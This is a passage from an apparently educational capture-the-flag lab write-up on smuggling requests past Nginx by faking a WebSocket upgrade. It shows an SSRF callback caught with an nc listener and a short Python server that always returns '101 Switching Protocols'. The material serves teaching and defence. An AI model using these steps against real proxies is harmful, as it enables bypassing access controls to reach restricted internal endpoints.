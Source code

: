 Notice how Nginx won't leak the flag despite getting a `426` response for the initial WebSocket upgrade attempt. Since Nginx is checking the response code of the upgrade, it can determine that no valid WebSocket connection was established; therefore, it won't allow us to smuggle the `/flag` request.


### Tricking the Proxy

Since we can't just smuggle requests anymore, we need to find a way to trick the proxy into believing a valid WebSocket connection has been established. This means we need to somehow force the backend web server to reply to our upgrade request with a fake `101 Switching Protocols` response without actually upgrading the connection in the backend.

While we won't be able to do this for all applications, if our target app has some vulnerability that allows us to proxy requests back to a server we control as attackers, we might be able to inject the `101 Switching Protocols` response to an arbitrary request. In these special cases, we should be able to smuggle requests through a fake WebSocket connection again.

![[Pasted image 20250219115349.png]]

### Leveraging SSRF

In this task's application, we will take advantage of an SSRF vulnerability to simulate a fake WebSocket upgrade. After a quick inspection, we can see that the application allows us to test the status of a URL. Each time we input a URL, the server will make a request to `http://10.10.201.33:8002/check-url?server=<url>` and return the status code from the corresponding response:

```
🔍 http://10.10.10.10/nothing
The server responded with status 404

inspect > Network > Headers > Status  404 not found
GET http://10.10.201.33:8002/check-url?server=http://10.10.10.10/nothing
```

We can use `nc` in our AttackBox to check if we can direct a request to ourselves. We should get a response similar to this one:

```
nc -lvp 5555

Listening on 0.0.0.0 5555 Connection received on 10.10.201.33 52988 GET /test HTTP/1.1 Host: 10.10.11.155:5555 User-Agent: python-requests/2.31.0 Accept-Encoding: gzip, deflate Accept: */* Connection: keep-alive
```

This means we can successfully use the SSRF vulnerability to influence the response of the backend server. All we need to do is spin up a web server that returns a `101` status, allowing us to fake a WebSocket upgrade.

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
